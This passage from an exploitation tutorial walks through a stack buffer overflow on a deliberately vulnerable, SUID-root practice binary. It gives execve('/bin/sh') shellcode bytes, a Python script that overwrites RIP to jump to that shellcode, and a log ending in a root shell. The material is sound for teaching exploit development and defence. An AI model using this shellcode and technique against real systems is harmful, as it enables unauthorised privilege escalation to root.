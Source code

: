 Excellent, we've gained control over RIP. Since this program is compiled without NX or stack canaries, we can write our shellcode directly on the stack and return to it. Let's go ahead and finish it. I'll be using a 27-byte shellcode that executes execve("/bin/sh") found [here](http://shell-storm.org/shellcode/files/shellcode-806.php). 

We'll store the shellcode on the stack via an environment variable and find its address on the stack using getenvaddr:

```
koji@pwnbox:~/classic$ export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`

koji@pwnbox:~/classic$ ~/getenvaddr PWN ./classic
PWN will be at 0x7fffffffeefa
```

We'll update our exploit to return to our shellcode at 0x7fffffffeefa:

```python
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*104
buf += pack("<Q", 0x7fffffffeefa)

f = open("in.txt", "w")
f.write(buf)
```

Make sure to change the ownership and permission of classic to SUID root so we can get our root shell:

```text
koji@pwnbox:~/classic$ sudo chown root classic
koji@pwnbox:~/classic$ sudo chmod 4755 classic
```

And finally, we'll update in.txt and pipe our payload into classic: 

```
koji@pwnbox:~/classic$ python ./sploit.py
koji@pwnbox:~/classic$ (cat in.txt ; cat) | ./classic
Try to exec /bin/sh
Read 112 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp
No shell for you :(
whoami
root
```

We've got a root shell, so our exploit worked. The main gotcha here was that we needed to be mindful of the maximum address size, otherwise we wouldn't have been able to gain control of RIP. This concludes part 1 of the tutorial. 

Part 1 was pretty easy, so for part 2 we'll be using the same binary, only this time it will be compiled with NX. This will prevent us from executing instructions on the stack, so we'll be looking at using ret2libc to get a root shell. Stay tuned!

